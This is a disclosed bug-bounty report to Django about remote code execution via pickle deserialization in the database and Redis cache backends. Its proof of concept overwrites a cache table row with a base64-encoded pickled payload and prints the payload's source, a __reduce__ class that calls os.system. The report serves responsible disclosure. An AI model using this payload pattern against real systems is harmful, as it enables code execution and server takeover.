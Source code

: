 # Deserialization of potentially malicious data to RCE

## Report Details
- **Report ID**: 1415436
- **URL**: https://hackerone.com/reports/1415436
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-12-02T14:08:15.741Z
- **Disclosed**: 2022-01-14T16:34:04.082Z

## Reporter
- **Username**: scaramouche31
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: django

## Vulnerability Information
Hello, Django Team! It's my first time working with you, hope it will be great!
Note: I have not seen this issue neither in known vulnerabilities nor in documentation, so here I am.

## Summary
Several type of caches in https://github.com/django/django/tree/main/django/core/cache/backends use python `pickle` which may result in RCE (basically privilege escalation) in case attacker will takeover a machine/container with cache.
So, 4 types of cache use `pickle.load` directly or under the hood:
1. Locmem - I don't consider it as a big issue, because locmem uses some random part of memory for cache taken by Python while the server runs + it is unlikely to be used in production.
2. Filebased - I don't consider it as an issue, because if you control the file with cache, it is likely that you control the machine where Django runs + this behaviour is mentioned in the documentation (https://docs.djangoproject.com/en/3.2/topics/cache/):
```
An attacker who gains access to the cache file can not only falsify HTML content, which your site will trust, but also remotely execute arbitrary code, as the data is serialized using pickle.
```
3. Database - this time I consider this as an issue, because a Django app and db are pretty likely running on different machines/containers. So in case attacker gains access to db, a door to privilege escalation via RCE on other machine is open.
4. Redis - though it was not released yet, it's already supported in dev version from source. Same thoughts here - Redis is likely to run in a separated environment.

## PoC, steps to reproduce:
I'm providing it for a db based cache, as Redis support is not officially released yet if I'm not mistaking
For an ease of PoC I will use sqlite3 on the same machine, but you of course may run a separate database.

1. Create a Django project, make some simple app.
2. Add this to `settings.py`:
```
MIDDLEWARE = [
    'django.middleware.cache.UpdateCacheMiddleware',
    ...
    'django.middleware.cache.FetchFromCacheMiddleware',
]
...
CACHE_MIDDLEWARE_ALIAS = 'default'
CACHE_MIDDLEWARE_KEY_PREFIX = ''
...
CACHES = {
    'default': {
        'BACKEND': 'django.core.cache.backends.db.DatabaseCache',
        'LOCATION': 'my_cache_table',
    }
}
```
3. Run the server, visit your app's page to create a cache entry;
4. In your shell run:
`sqlite3 db.sqlite3`
5. Run `SELECT * FROM my_cache_table;` to find a row which stores the cached page (it was the second one in my case).
6. Run `UPDATE my_cache_table SET value = 'gASVHgAAAAAAAACMAm9zlIwGc3lzdGVtlJOUjAZ3aG9hbWmUhZRSlC4=' where rowid=2;` with the id of your row,
7. Reload the web page.
8. Observe command execution in the server logs.

Video PoC:
{F1532035}

`gASVHgAAAAAAAACMAm9zlIwGc3lzdGVtlJOUjAZ3aG9hbWmUhZRSlC4=` is a base64 version of pickled RCE payload:
```
class Pwner:
    def __reduce__(self):
        import os
        cmd = "whoami"
        return os.system, (cmd,)
```

## Reference
As a reference I'm leaving a very same issue in Flask: 
https://vulmon.com/vulnerabilitydetails?qid=CVE-2021-33026&scoretype=cvssv2

## Attack scenario:
1. Attacker gains an access to machine/container with cache instance.
2. Attacker now can run arbitrary code on machine with running Django server.

## Impact

RCE, full machine takeover

## Attachments
- djangoPoC.mp4
